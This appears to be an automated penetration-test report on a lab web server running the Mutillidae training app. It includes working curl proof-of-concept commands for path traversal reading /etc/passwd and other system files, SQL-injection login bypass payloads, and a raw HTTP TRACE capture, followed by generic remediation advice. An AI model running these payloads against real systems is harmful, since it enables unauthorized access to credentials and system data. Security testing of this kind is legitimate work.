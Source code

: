 # HTTP Exploitation Report
## Target: 192.168.1.113:80
## Timestamp: 2025-09-01 23:48:18

## Executive Summary
- **Total Exploits**: 7
- **Critical Risk**: 1
- **High Risk**: 4
- **Medium Risk**: 2
- **Low Risk**: 0

## Vulnerability Breakdown
- **SQL Injection**: 4
- **XSS**: 0
- **LFI**: 1
- **RCE**: 0
- **File Upload**: 0
- **Metasploit**: 0
- **phpMyAdmin Access**: 0
- **WebDAV Exploitation**: 0
- **Credential Harvesting**: 0
- **phpinfo Intelligence**: 0
- **Other**: 2

## Post-Exploitation Status
- **Session Established**: No
- **Privilege Level**: Unknown
- **System Access**: No
- **Credentials Found**: None
- **Ready for Post-Exploitation**: No

## CRITICAL Risk Exploits

### Local File Inclusion (LFI) - Discovered Endpoint
- **Target**: 192.168.1.113:80
- **Risk Level**: CRITICAL
- **Risk Description**: No description available
- **Details**: LFI found on discovered endpoint http://192.168.1.113/cgi-bin/ with parameter file
- **PoC**: `curl 'http://192.168.1.113/cgi-bin/?file=../../../etc/passwd'`
- **Proof**: LFI confirmed with 39 successful file inclusions:
- ../../../etc/passwd: User database
- ../../../etc/group: Group database
- ../../../etc/hosts: Hosts file
- ../../../etc/resolv.conf: DNS configuration
- ../../../etc/apache2/apache2.conf: Apache configuration

Risk Level: CRITICAL
Risk Description: Password hashes, database files, and SSH keys accessible - complete system compromise
Total Files Accessed: 39
- **Proof File**: outputs/192.168.1.113_http_lfi_discovered_proof.txt

## HIGH Risk Exploits

### SQL Injection (Error-based Indicator)
- **Target**: 192.168.1.113:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: Possible SQL error reflection at http://192.168.1.113/mutillidae/user-info.php?username=1'
- **PoC**: `curl 'http://192.168.1.113/mutillidae/user-info.php?username=1''`
- **Proof**: Possible SQL error reflection at http://192.168.1.113/mutillidae/user-info.php?username=1'
- **Proof File**: outputs/192.168.1.113_http_mutillidae_sqli_proof.txt

### SQL Injection (POST - Error-based)
- **Target**: 192.168.1.113:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://192.168.1.113/mutillidae/login.php param username
- **PoC**: `curl -X POST 'http://192.168.1.113/mutillidae/login.php' --data 'username=%27+OR+%271%27%3D%271&password=test'`
- **Proof**: SQL error indicators present

### SQL Injection (POST - Error-based)
- **Target**: 192.168.1.113:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://192.168.1.113/mutillidae/login.php param password
- **PoC**: `curl -X POST 'http://192.168.1.113/mutillidae/login.php' --data 'username=test&password=%27+OR+%271%27%3D%271'`
- **Proof**: SQL error indicators present

### SQL Injection (POST - Error-based)
- **Target**: 192.168.1.113:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://192.168.1.113/mutillidae/user-info.php param username
- **PoC**: `curl -X POST 'http://192.168.1.113/mutillidae/user-info.php' --data 'username=%27+OR+%271%27%3D%271'`
- **Proof**: SQL error indicators present

## MEDIUM Risk Exploits

### ETag Information Leak
- **Target**: 192.168.1.113:80
- **Risk Level**: MEDIUM
- **Risk Description**: No description available
- **Details**: ETag information leak exploited
- **PoC**: `curl -I http://192.168.1.113`
- **Proof**: ETag information leak detected: "45f13-6da3-51c22f5365e00"
- **Proof File**: outputs/192.168.1.113_http_etag_leak_proof.txt

### HTTP TRACE Authentication Bypass
- **Target**: 192.168.1.113:80
- **Risk Level**: MEDIUM
- **Risk Description**: No description available
- **Details**: HTTP TRACE method exploited for authentication bypass
- **PoC**: `curl -X TRACE http://192.168.1.113`
- **Proof**: HTTP TRACE method enabled: % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 192.168.1.113:80...
* Connected to 192.168.1.113 (192.168.1.113) port 80
* using HTTP/1.x
> TRACE / HTTP/1.1
> Host: 192.168.1.113
> User-Agent: curl/8.15.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Mon, 01 Sep 2025 22:43:54 GMT
< Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14 OpenSSL/0.9.8k Phusion_Passenger/4.0.38 mod_perl/2.0.4 Perl/v5.10.1
< Transfer-Encoding: chunked
< Content-Type: message/http
< 
{ [90 bytes data]

100    79    0    79    0     0  27064      0 --:--:-- --:--:-- --:--:-- 39500
* Connection #0 to host 192.168.1.113 left intact
TRACE / HTTP/1.1
Host: 192.168.1.113
User-Agent: curl/8.15.0
Accept: */*
- **Proof File**: outputs/192.168.1.113_http_trace_proof.txt

## Security Recommendations

### CRITICAL - Immediate Action Required
- Implement input validation and sanitization
- Disable dangerous PHP functions (eval, exec, system)
- Implement proper file upload restrictions
- Use parameterized queries for all database operations
- Implement Content Security Policy (CSP)

### HIGH - Urgent Action Required
- Fix all identified vulnerabilities immediately
- Implement proper authentication and authorization
- Use HTTPS for all communications
- Regular security audits and penetration testing

### MEDIUM - Action Required
- Implement proper error handling
- Regular security updates and patches
- Security awareness training for developers

